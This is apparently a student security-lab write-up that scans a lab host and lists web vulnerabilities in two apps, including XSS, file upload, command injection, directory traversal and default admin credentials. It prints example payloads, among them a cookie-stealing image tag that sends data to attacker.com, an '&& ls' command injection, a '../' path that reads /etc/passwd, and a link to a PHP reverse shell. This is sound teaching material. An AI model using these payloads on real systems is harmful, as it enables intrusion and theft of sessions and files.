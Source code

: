 # Lab 3: Web Security

## Task 1: Black Box testing

You are given the IP of the dedicated host that hold vulnerable web applications: `87.249.53.182` Find targets and the way how you can exploit it.

### Port and service scanning

```bash
nmap 87.249.53.182 # scanning common port numbers
```

![image-20220409213623223](../images/image-20220409213623223.png)

```bash
# OS and service detection for the observed open ports
sudo nmap 87.249.53.182 -p22,445,7777,8090 -A  
```

![image-20220411122700177](../images/image-20220411122700177.png)



**Highlighted results**

- Port 22 is running `OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0) `
  - The OpenSSH version used is not associated with any critical vulnerabilities, so it’s unlikely that we gain initial access through this port.
  - Trying metasploit's module `auxiliary/scanner/ssh/ssh_login` to bruteforce login credentials with common logins gave no results.
- Port 7777 is running `Tornado 5.1.1` (web server)
- Port 8090 is running `Apache 2.4.7` (web server)
- Web server versions are also not associated with critical vulnerabilities



### Port 8090/TCP vulnerabilities

The webpage at `87.249.53.182:8090` hosting ``NetologyVulnApp.com`` is not enforcing the use of HTTPS which means that all data (including user credentials) are transmitted in plaintext and is subject to sniffing attacks. After creating an account, the vulnerabilities listed below were found:

#### 1. Cross Site Scripting (XSS)

**1.1 Stored XSS**

- Guestbook tab contains a form with two fields (name and comment) that takes user input.

  ![image-20220409220425267](../images/image-20220409220425267.png)

- User input is not being sanitized, submitting the payload `<script>alert(1)</script>` we can see an alert showing up everytime the page is loaded.

- This can be exploited to inject arbitrary JS code in the application (e.g., to steal user cookies including session IDs and use it to do actions on behalf of users) with a payload similar to this:

  ```html
  <img src=x onerror=this.src='http://attacker.com/?c='+document.cookie>
  ```

**1.2. Reflected XSS**

- The search field reflects unsanitized user input, searching for `<script>alert(1)</script>` again showed an alert.

- Although this is less dangerous than reflected XSS, it's still a vulnerability as it allows crafting phishing links on the trusted domain like:

  ```
  http://87.249.53.182:8090/pictures/search.php?query=<URL_ENCODED_JS_PAYLOAD>&x=14&y=13
  ```

- This link when clicked by a user, executes `<URL_ENCODED_JS_PAYLOAD>`  that can also be used to steal cookies, redirect to other webpage, or many other attacks.

#### 2. Unrestricted File Upload

- Upload tab allows uploading arbitrary files without checks.
- This allows
  - Uploading backdoors
    - Example PHP script that opens as a reverse shell: [script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). 
  - Remote Code Execution (RCE) by uploading a script that calls `system()`.
  - Uploading phishing websites (e.g., HTML and JS files to redirect users to attacker website)
    - These websites will look trustworthy since the domain they are hosted on is not the attacker's.
- All uploaded files (even the ones uploaded by other users) are stored in `http://87.249.53.182:8090/uploads` and directory listing is enabled.

![image-20220409221442345](../images/image-20220409221442345.png)

#### 3. Directory Listing

- Directory Listing is not a vulnerability by itself, unless it allows accessing data useful for the attacker.
- `http://87.249.53.182:8090/users` and `http://87.249.53.182:8090/cart` contains PHP sources from the website, examining this will allow the attacker to discover even more serious vulnerabilities.

![image-20220411125900266](../images/image-20220411125900266.png)

#### 4. Guessable/Weak passwords

- In the footer, there are hyperlinks including `Admin` redirecting to Admin login page.

![image-20220409225329564](../images/image-20220409225329564.png)

- The admin's credentials were easily guessed and we were able to log in using `username:admin` and `password:admin`

![image-20220409225946568](../images/image-20220409225946568.png)

#### 5. Information Exposure through query string in url

Users' uploaded content is accessible by modifying the `userid` parameter in the query string (no checks for being logged as the user).

`http://87.249.53.182:8090/users/sample.php?userid=1`

![image-20220409224330434](../images/image-20220409224330434.png)



### Port 7777/TCP vulnerabilities

The webpage at `87.249.53.182:7777` hosting ``BEEMERS`` is also not enforcing the use of HTTPS which means that all data (including user credentials) are transmitted in plaintext and is subject to sniffing attacks).

#### **1. Remote Code Execution (RCE)**

- The server status feature at `http://87.249.53.182:7777/server.html` allows executing arbitrary commands on the server. Example payload: `127.0.0.1 && ls`

  ![image-20220411134359592](../images/image-20220411134359592.png)

- **This allows**
  - Opening a reverse shell on the server.
  - Uploading arbitrary content, including phishing websites.
  - Dumping SQLite database `test.db`
  - Viewing server source code `server.py` which makes it a whitebox testing.

 

#### 2. Reflected XSS

- Same vulnerability with the previous website: the search field reflects unsanitized user input, searching for `<script>alert(1)</script>` showes an alert.

- Phishing link:

  ```
  http://87.249.53.182:7777/search?q=<URL_ENCODED_JS_PAYLOAD>
  ```

  

#### 3. Directory Traversal

- Proper access rules for directories and files are not enforced by the webserver.

- We can access `/etc/passwd` for example by the link

  ```
  http://87.249.53.182:7777/read?file=../../../../../../etc/passwd
  ```



#### 4. Unrestricted File Upload

- Upload functionality allows uploading arbitrary files to the server
- Files are stored in `/tmp` directory which we can access using the same trick above with directory traversal.



#### 5. Guessable/Weak passwords

- Poorest admin credentials ever: `username:admin` and `password:admin`

